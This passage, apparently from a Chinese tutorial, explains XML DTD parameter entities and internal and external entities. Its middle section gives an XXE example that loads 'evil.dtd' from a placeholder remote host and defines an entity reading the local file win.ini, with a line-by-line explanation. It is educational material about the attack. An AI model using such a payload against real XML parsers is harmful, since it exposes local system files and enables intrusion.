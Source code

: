```plain
<!ENTITY % myContent "<element>Some content</element>">
<!ELEMENT root (%myContent;)>
```

在上述示例中我们定义了一个名为 myContent 的参数实体，它的值是<element>Some content</element>，然后在 root 元素的声明中我们使用%myContent;来引用该参数实体，参数实体的主要优点是可以简化 DTD 的定义和维护，通过定义和引用参数实体，可以在 DTD 中重复使用 DTD 片段，从而减少冗余和提高可维护性，此外参数实体还可以在 DTD 的不同部分进行扩展或修改以满足特定需求，而无需修改每个引用的地方，下面是一个结合了参数实体声明和引用的示例：

```plain
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>

<foo>&evil;</foo>
```

外部 evil.dtd 中的内容：

```plain
<!ENTITY evil SYSTEM "file:///c:/windows/win.ini" >
```

文档解释说明：

-   <!DOCTYPE foo \[...\]>：这是 XML 文档的文档类型声明 (Document Type Declaration)，指定该文档遵循的 DTD 规则，在这里 foo 是文档类型的名称
-   <!ELEMENT foo ANY>：这是 DTD 中的元素声明，定义了元素 foo 的内容模型，在这里 foo 元素允许包含任何内容
-   <!ENTITY % xxe SYSTEM "[http://xxx.xxx.xxx/evil.dtd">：这是一个参数实体声明，定义了一个名为xxe的参数实体，其值是指向位于](http://xxx.xxx.xxx/evil.dtd) "[http://xxx.xxx.xxx/evil.dtd"的外部DTD文件的URI，这个DTD文件可能包含一些恶意的内容](http://xxx.xxx.xxx/evil.dtd)
-   %xxe;：这是一个参数实体引用，用于在 DTD 中插入参数实体的值，在这里它将被替换为指向外部 DTD 文件的 URI
-   <foo>：这是 XML 文档中的一个元素，它与之前定义的 foo 元素相对应</foo>
-   &evil;：这是一个实体引用，引用了名为 evil 的实体，根据之前的定义，evil 实体的值将被替换为外部 DTD 文件的 URI

### 内外实体声明

内外部 DTD 结合使用的格式如下所示：

```plain
<!DOCTYPE 根元素 SYSTEM "DTD 文件路径" [定义内容]>
```

下面是一个 XML 示例，演示了内部实体和外部实体的混合使用

```plain
<!DOCTYPE example [
  <!ENTITY author "John Doe">
  <!ENTITY company SYSTEM "company.txt">
]>
<book>
  <title>XML Basics</title>
  <author>&author;</author>
  <publisher>&company;</publisher>
</book>
```

在上述示例中我们定义了一个包含内部实体和外部实体的 DTD 外部声明，DTD 外部声明位于 DOCTYPE 标记中的 example 部分

